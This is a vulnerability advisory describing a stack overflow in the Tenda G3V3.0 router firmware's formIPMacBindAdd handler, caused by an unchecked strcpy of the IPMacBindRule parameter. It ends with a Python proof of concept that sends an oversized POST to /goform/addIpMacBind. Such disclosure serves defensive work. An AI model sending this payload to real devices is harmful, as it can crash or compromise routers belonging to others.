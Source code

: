 ## Overview

- Firmware download website: https://www.tenda.com.cn/download/detail-3369.html

## Affected version

G3V3.0 V15.11.0.20

## Vulnerability details

The Tenda G3V3.0 V15.11.0.20 firmware has a stack overflow vulnerability in the `formIPMacBindAdd` function. The `rules` variable receives the `IPMacBindRule` parameter from a POST request and is passed to function `ipMacBindListStore` as `listStr`. 

![image-20240417110001592](https://raw.githubusercontent.com/abcdefg-png/images2/main/image-20240417110001592.png)

In function `ipMacBindListStore`, the `listStr` is directly assigned to `inputList`. However, since the user can control the input of `IPMacBindRule`, the statement `strcpy((char *)&inputList, (const char *)listStr);` can cause a buffer overflow. The user-provided  `IPMacBindRule` can exceed the capacity of the `inputList` array, triggering this security vulnerability.

![image-20240417110045932](https://raw.githubusercontent.com/abcdefg-png/images2/main/image-20240417110045932.png)

## POC

```python
import requests
from pwn import*

ip = "192.168.84.101"
url = "http://" + ip + "/goform/addIpMacBind"
payload = b"a"*2000

data = {
        'IPMacBindRule':payload,
    }
response = requests.post(url, data=data)
print(response.text)
```
